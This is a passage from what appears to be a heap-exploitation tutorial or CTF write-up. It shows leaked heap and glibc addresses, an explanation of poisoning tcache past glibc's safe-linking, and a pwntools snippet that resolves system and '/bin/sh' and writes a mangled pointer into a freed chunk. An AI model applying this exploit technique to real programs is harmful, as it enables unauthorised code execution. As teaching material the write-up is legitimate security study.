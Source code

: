 ```
[DEBUG] Received 0x52 bytes:
    00000000  55 73 65 72  3a 20 ae 79  c9 3b 27 56  2c 20 67 72  │User│: ·y│·;'V│, gr│
    00000010  6f 75 70 3a  20 ce 9e 25  62 05 2c 20  75 69 64 3a  │oup:│ ··%│b·, │uid:│
    00000020  20 32 33 31  32 31 34 36  39 31 33 34  2c 20 67 69  │ 231│2146│9134│, gi│
    00000030  64 3a 20 34  34 32 32 39  37 36 30 30  35 38 38 35  │d: 4│4229│7600│5885│
    00000040  34 30 32 34  31 34 0a 42  69 6f 3a 20  10 f1 1f 34  │4024│14·B│io: │···4│
    00000050  09 7f                                               │··│
    00000052
[DEBUG] Received 0x17 bytes:
    b'Please enter an option:'
[DEBUG] Received 0x5a bytes:
    b'\n'
    b' 1. New user\n'
    b' 2. Edit user\n'
    b' 3. Print user\n'
    b' 4. Delete user\n'
    b' 5. Submit ticket for admin\n'
    b' > '
Heap base: 0x562259ece000
Glibc base: 0x7f0934000000
```

#### Poisoning Tcache and Fighting Crashes

Great! Step one is done, now we must corrupt tcache with an arbitrary address. We want to control `u` because it contains UAF pointers, and modifying those pointers gives us arbitrary read and write capabilities with `print` and `edit`, respectively. But we should be strategic about what address we choose. We only want to poison tcache once so that we avoid touching the heap after corruption. And the only option we have for poisoning tcache is the `0x20` sized cache. The poisoned address is returned for the `name` buffer, just like we saw in the <2.32 example. Any subsequent edit to `name` is limited by the program to `0x10` bytes, which is only two quadwords of control. The first two quadwords of `u` are just the `u->uid` and `u->gid` values, so we do not want to poison the cache with `u`'s starting address. Instead, we should shift our target to `u+0x10`, which lets us overwrite the `u->name` and `u->group` pointers.

We can use `heap chunks` with `gef` to discern the offset of all allocations from the start of the heap, including `u`. We need two pieces of information to bypass safe linking: the address of the cached allocation we plan to overwrite and the target (poisoned) address. The cached allocation must be a non-tail allocation, which means the cached `name` allocation is the goal (`name` points to `group` in the cache, the same as last lesson). We concluded the target poisoned address is `u + 0x10`. With these two pieces of information, we can calculate the "encrypted" pointer such that the "decryption" shows the address of `u`. Let's store this value in `name`'s `fw` address by editing its value:

```python
# corrupt tcache (head of list) to point into `u`
e = ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec=False)
e.address = glibc_base
system = e.symbols.system
bin_sh = next(e.search(b"/bin/sh"))
environ = e.symbols.__environ
u = 0x2a0 + heap_base
bio = 0x2d0 + heap_base
name = 0x780 + heap_base
group = 0x760 + heap_base
target_overwrite = (name >> 12) ^ (u + 0x10)
edit(p64(target_overwrite),
    b"BBBB",
    10,
    10,
    p64(glibc_leak) + p64(glibc_leak))
```
